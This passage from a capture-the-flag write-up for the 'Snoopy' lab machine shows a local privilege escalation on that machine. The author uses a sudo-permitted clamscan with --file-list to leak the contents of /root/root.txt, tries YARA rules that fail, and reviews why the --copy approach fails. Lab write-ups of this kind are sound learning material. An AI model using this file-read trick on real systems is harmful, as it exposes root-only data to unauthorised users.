/root/db.snoopy.htb: OK
/root/git_2.34.1-1ubuntu1.6_amd64.deb: OK
/root/clamav-1.0.0.linux.x86_64.deb: OK
/root/.profile: OK

----------- SCAN SUMMARY -----------
Known viruses: 0
Engine version: 1.0.0
Scanned directories: 1
Scanned files: 9
Infected files: 0
Data scanned: 32.91 MB
Data read: 18.07 MB (ratio 1.82:1)
Time: 0.668 sec (0 m 0 s)
Start Date: 2023:05:10 17:46:33
End Date:   2023:05:10 17:46:33
```

Ok it's a step forward, I have to adjust the yara rule to match other example all the *.txt andf stumbled upon this: https://github.com/VirusTotal/yara/issues/269

And by using this:

```Bash
sbrown@snoopy:/tmp$ cat yovecio.yara 
rule flag {
  conditions:
    filename == "root.txt"
}
```

But I still get it wrong and apparently is "Condition" and not "Conditions"... And is == for equal and not =



See here:



But it still get an error, this time on filename:



But everything didn't worked out so I checked for tips and apparently was WAAAY easier than this:

```BAsh
sbrown@snoopy:/tmp$ sudo -u root /usr/local/bin/clamscan --file-list=/root/root.txt
LibClamAV Warning: **************************************************
LibClamAV Warning: ***  The virus database is older than 7 days!  ***
LibClamAV Warning: ***   Please update it as soon as possible.    ***
LibClamAV Warning: **************************************************
Loading:    25s, ETA:   0s [========================>]    8.66M/8.66M sigs       
Compiling:   6s, ETA:   0s [========================>]       41/41 tasks 

455470cb5b4dfc0bf5e1381fe66cf1cc: No such file or directory
WARNING: 455470cb5b4dfc0bf5e1381fe66cf1cc: Can't access file

----------- SCAN SUMMARY -----------
Known viruses: 8659055
Engine version: 1.0.0
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 32.365 sec (0 m 32 s)
Start Date: 2023:05:10 18:16:46
End Date:   2023:05:10 18:17:18
```

Basically:

--file-list=FILE -f FILE Scan files from FILE

Now we have root!

* * *

## Post Analisys

The day after at the office i spinup the machine again to test if I could get make those yara rules to work and get the flag as described in that document and I came to realization:

1.  Filename was not working so I couldn't really filter out by root.txt which diminish drastically the success rate
2.  Even if I filtered our exactly the root.txt string(knowing it wouldn't make sense to pursuit this forward) the rule kicks in:
    
    ```Bash
    sbrown@snoopy:/tmp$ sudo -u root /usr/local/bin/clamscan -d yovecio.yara  /root/root.txt --copy=/tmp
    Loading:     0s, ETA:   0s [========================>]        1/1 sigs
    Compiling:   0s, ETA:   0s [========================>]       40/40 tasks
    
    /root/root.txt: YARA.yovecio.UNOFFICIAL FOUND
    /root/root.txt: copied to '/tmp/root.txt.001'
    
    ----------- SCAN SUMMARY -----------
    Known viruses: 1
    Engine version: 1.0.0
    Scanned directories: 0
    Scanned files: 1
    Infected files: 1
    Data scanned: 0.00 MB
    Data read: 0.00 MB (ratio 0.00:1)
    Time: 0.010 sec (0 m 0 s)
    Start Date: 2023:05:11 08:42:14
    End Date:   2023:05:11 08:42:14
    ```
    
3.  But even by coping the file to /tmp is preserve the original permissions so which means that all this solutions was dead from start:
    
    ```Bash
    -rw-------  1 root   root     33 May 11 08:42 root.txt
    -rw-------  1 root   root     33 May 11 08:42 root.txt.001
    ```